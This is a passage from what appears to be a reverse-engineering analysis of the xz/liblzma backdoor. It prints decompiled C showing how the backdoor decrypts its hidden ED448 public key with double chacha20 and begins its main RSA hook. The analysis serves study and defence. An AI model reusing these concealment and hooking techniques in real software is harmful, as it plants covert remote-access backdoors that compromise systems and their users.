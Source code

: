 ```c
        && (*&insn->mod_rm & 0xFF00FF00) == 0x5000000
        && (!lea_displ || insn->mem_displ + insn->addr + insn->insn_size == lea_displ) )
      {
        return 1;
      }
      ++start_ea;
    }
  }
  return Error;
}
```

## Secret data

To obtain the ED448 public key used in main hook function, the backdoor relies on `ctx->secret_data`:

```c
Status __fastcall decrypt_secret_data(uint8_t *out, global_ctx *ctx)
{
  hfuncs_t *hfuncs; // r9
  size_t i; // rcx
  uint32_t *dptr1; // rdi
  size_t j; // rcx
  uint32_t *dptr2; // rdi
  uint8_t key1[32]; // [rsp-20h] [rbp-B8h] BYREF
  uint8_t iv1[16]; // [rsp+0h] [rbp-98h] BYREF
  uint8_t key2[32]; // [rsp+10h] [rbp-88h] BYREF
  uint8_t iv2[16]; // [rsp+30h] [rbp-68h] BYREF

  if ( !out )
    return 0;
  if ( ctx )
  {
    hfuncs = ctx->hfuncs;
    if ( hfuncs )
    {
      i = 0xCLL;
      dptr1 = key1;
      while ( i )
      {
        *dptr1++ = 0;
        --i;
      }
      j = 0x1CLL;
      dptr2 = key2;
      while ( j )
      {
        *dptr2++ = 0;
        --j;
      }
      if ( chacha20_decrypt(key1, 0x30uLL, key1, iv1, key2, hfuncs) )
        return chacha20_decrypt(ctx->secret_data, 0x39uLL, key2, iv2, out, ctx->hfuncs) != Error;
    }
  }
  return Error;
}

Status __fastcall hook_main(RSA *r, global_ctx *ctx, uint32_t *status) {
  ...
  // check that ctx->secret_data will have the expected value
  if ( ctx->reg2reg_insn_count == 0x1C8 )
  {
```

[1]: https://gynvael.coldwind.pl/?lang=en&id=782
[2]: https://gist.github.com/q3k/af3d93b6a1f399de28fe194add452d01
[3]: https://en.wikipedia.org/wiki/Radix_tree
[4]: https://github.com/smx-smx/xzre/blob/main/xzre.h
[5]: https://github.com/smx-smx/xzre/blob/ff3ba18a39bad272ff628bb759ed5c897cf441b3/xzre.c#L48